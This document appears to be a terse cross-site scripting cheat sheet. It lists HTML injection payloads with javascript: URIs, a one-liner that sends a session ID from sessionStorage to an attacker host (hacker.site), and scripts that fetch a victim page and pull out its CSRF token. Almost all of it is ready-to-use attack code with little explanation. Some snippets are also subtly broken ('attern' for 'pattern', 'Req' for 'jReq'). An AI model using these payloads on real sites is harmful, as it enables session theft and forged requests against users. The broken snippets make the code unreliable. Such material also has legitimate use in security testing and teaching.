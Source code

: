 ## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>


```

## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

## Scripts
### Extract CSRF Token from XSS in same page
Using XHR
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4) {
var htmlSource = xhr.responseText;
//some operations…
}
}
xhr.open('GET','http://victim.site/csrf-form-page.html', true);
xhr.send();
```
Using JQuery
```js
Req= jQuery.get('http://victim.site/csrf-form-page.html', 
function() {
var htmlSource = jReq.responseText;
//some operations…
});
```
Using DOM
```js
var token = document.getElementsByName('csrf_token')[0].value
```

### Extract CSRF Token from XSS in different page
Using regex
```js
attern = /csrf_token'\svalue='(.*)'/;
token = htmlSource.match(pattern)[1]
```
Using DOM Parser
```js
parser = new DOMParser().parseFromString(htmlSource,"text/html");
token = parser.getElementsByName('csrf_token')[0];
```